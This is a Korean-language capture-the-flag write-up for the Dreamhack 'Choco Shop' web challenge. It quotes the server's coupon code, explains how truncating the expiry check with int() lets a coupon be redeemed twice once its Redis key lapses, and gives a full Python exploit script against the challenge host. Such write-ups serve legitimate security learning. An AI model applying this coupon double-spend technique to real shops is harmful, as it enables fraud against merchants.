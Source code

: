 ```yaml
---
toc: true
tags:
  - web
categories:
  - CTF
  - Dreamhack
header:
  teaser: ""
title: Choco Shop
---
```


# Choco Shop

Dreamhack의 Choco Shop 문제이다.

![](../assets/img/Pasted%20image%2020240330203616.png)

계정당 하나씩 사용할 수 있는 1000원짜리 쿠폰을 이용해 2000원의 Flag를 구매해야하는데...

![](../assets/img/Pasted%20image%2020240330203622.png)

쿠폰을 발급 받으면 아래처럼 JWT 형식의 문자열이 나온다.

![](../assets/img/Pasted%20image%2020240330203628.png)

쿠폰을 발급받는 코드를 확인해보면

```python
@app.route('/coupon/claim')
@get_session()
def coupon_claim(user):
    if user['coupon_claimed']:
        raise BadRequest('You already claimed the coupon!')

    coupon_uuid = uuid4().hex
    data = {'uuid': coupon_uuid, 'user': user['uuid'], 'amount': 1000, 'expiration': int(time()) + COUPON_EXPIRATION_DELTA}
    uuid = user['uuid']
    user['coupon_claimed'] = True
    coupon = jwt.encode(data, JWT_SECRET, algorithm='HS256').decode('utf-8')
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(user))
    return jsonify({'coupon': coupon})
```

`user['coupon_claimed'] = True` 로 설정되어 계정당 한번만 쿠폰을 발급 받을 수 있다.

이번엔 쿠폰을 등록하는 코드를 확인해보면

```python
@app.route('/coupon/submit')
@get_session()
def coupon_submit(user):
    coupon = request.headers.get('coupon', None)
    if coupon is None:
        raise BadRequest('Missing Coupon')

    try:
        coupon = jwt.decode(coupon, JWT_SECRET, algorithms='HS256')
    except:
        raise BadRequest('Invalid coupon')

    if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')

    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')
```

다른 계정의 쿠폰은 등록할 수 없게 되어있다.

해당 문제는 쿠폰의 expiration의 시간차를 이용해 같은 쿠폰을 2번 등록할 수 있는 취약점을 이용해야한다.

처음 쿠폰을 발급 받을때 expiration은 int(time()) + COUPON_EXPIRATION_DELTA(45초)로 설정이된다.

쿠폰의 등록은 Redis에서 setnx를 통해 coupon의 uuid를 Key 값으로 등록하여 다음 등록시에 해당 coupon의 uuid가 key값으로 존재하는지 검사한다.

```python
if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
```

등록 후 아래 코드를 통해 Coupon의 uuid Key값을 만료시킨다.
```python
r.expire(used_coupon, timedelta(seconds=coupon['expriation'] - int(time()))
```

만료되는 시간을 보면 coupon의 expiration 시간으로 설정된 쿠폰 발급 당시의 시간 + 45초가 지나면 Redis에 등록된 Coupon uuid의 Key값은 삭제가된다.

쿠폰 등록 과정 중 쿠폰이 만료되었는지 검사하는 코드로 검사를 하지만 int 값으로 변환하기 때문에 소수점의 초는 짤리게된다.

```python
if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')
```

따라서 45.0초 ~ 46초 사이에 등록을 하게 되면 쿠폰의 만료 코드는 통과하고 Redis에서는 Coupon uuid Key값은 삭제가 되어있어 동일한 쿠폰으로 2번 등록할수있다.

해당 기능을하는 코드를 작성하여 플래그를 구입하여 문제를 풀면된다.

```python
ex.py

import time
import requests

base_url = "http://host1.dreamhack.games:20630"
COUPON_EXPIRATION_DELTA = 45

#get session
r = requests.get(base_url+"/session")
res = r.json()
session = res['session']

#get coupon
headers = {'Authorization':session}
r = requests.get(base_url+"/coupon/claim",headers=headers)
res = r.json()
coupon = res['coupon']
print(coupon)

#submit coupon
headers = {'Authorization':session,'coupon':coupon}
r = requests.get(base_url+"/coupon/submit",headers=headers)
print(r.json())

time.sleep(COUPON_EXPIRATION_DELTA)

headers = {'Authorization':session,'coupon':coupon}
r = requests.get(base_url+"/coupon/submit",headers=headers)
print(r.json())

headers = {'Authorization':session}
r = requests.get(base_url+"/flag/claim",headers=headers)
res = r.json()
print(res)
```
